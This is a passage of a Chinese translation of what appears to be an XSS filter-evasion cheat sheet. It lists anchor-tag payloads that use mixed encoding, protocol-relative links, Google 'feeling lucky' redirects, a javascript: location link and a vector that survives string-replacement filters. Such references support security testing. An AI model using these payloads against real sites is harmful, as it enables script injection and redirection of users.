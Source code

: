 **混合编码** 让我们混合基本编码并且插入一个 tab 和换行符。为什么浏览器允许这样，我是不知道。但是它是可以工作当它们被包含在引号之间。

```
<A HREF="h
tt  p://6   6.000146.0x7.147/">XSS</A> 
```

**协议绕过** “//”代替“http:// ” 可以节省更多字符。这是非常有用的当输入空间是有限的时候。两个字符可能解决大问题。也是容易绕过像"(ht|f)tp(s)?://" 这样的正则过滤。（感谢 Ozh 提出这部分）。你也可以改变//" 为 "\"。你需要保持斜杠在适当的地方。否则可能会被当作一个相对路径的 url。

```
<A HREF="//www.google.com/">XSS</A> 
```

**Google "feeling lucky" I** Firefox 使用 Google 的"feeling lucky" 函数去重定向用户输入的任何关键字。因此你可以在可利用页面使用任何关键字针对任何 Firefox 用户。它是使用了"keyword:" 协议。你可以使用多个关键字像下面的例子：XSS+RSnake。它是无法使用在 Firefox as of 2.0。

```
<A HREF="//google">XSS</A> 
```

**Google "feeling lucky" II** 这是使用一个小技巧让他工作在 Firefox，因为只有它实现了 "feeling lucky" 函数。不像下一个例子，它是无法工作在 Opera ，由于 Opera 认为它是一种老的钓鱼攻击。它是一个简单的畸形 url。如果你点击弹出框的确定按钮它将工作。但是由于这是一个错误对话框，我是说 Opera 是不支持它。它也不再被支持在 Firefox 2.0。

```
<A HREF="http://ha.ckers.org@google">XSS</A> 
```

**Google "feeling lucky" III** 它是通过畸形 url 来工作在 Firefox 和 Opera 浏览器。因为只有他们实现了 "feeling lucky" 函数。像上面的例子一样，它们需要你的网站在谷歌搜索中排名第一。（例如 google）

```
<A HREF="http://google:ha.ckers.org">XSS</A> 
```

**移除别名** 结合上面的 url。移除 "www." 将节省四个字符。

```
<A HREF="http://google.com/">XSS</A> 
```

**绝对 DNS 用额外的点**

```
<A HREF="http://www.google.com./">XSS</A> 
```

**JavaScript link location**

```
<A HREF="javascript:document.location='http://www.google.com/'">XSS</A> 
```

**针对内容替换的攻击向量** 假设 "[`www.google.com/`](http://www.google.com/)" 会被替换为空。我确实使用了一个简单的攻击向量去针对特殊文字过滤依靠过滤器本身。这是一个例子去帮助创建向量。（IE: "java script:" 被替换为"java script:", 它是仍可以工作在 IE,使用安全模块的 Netscape 8.1+ 和 Opera）

```
<A HREF="http://www.gohttp://www.google.com/ogle.com/">XSS</A> 
```

### 字符编码表
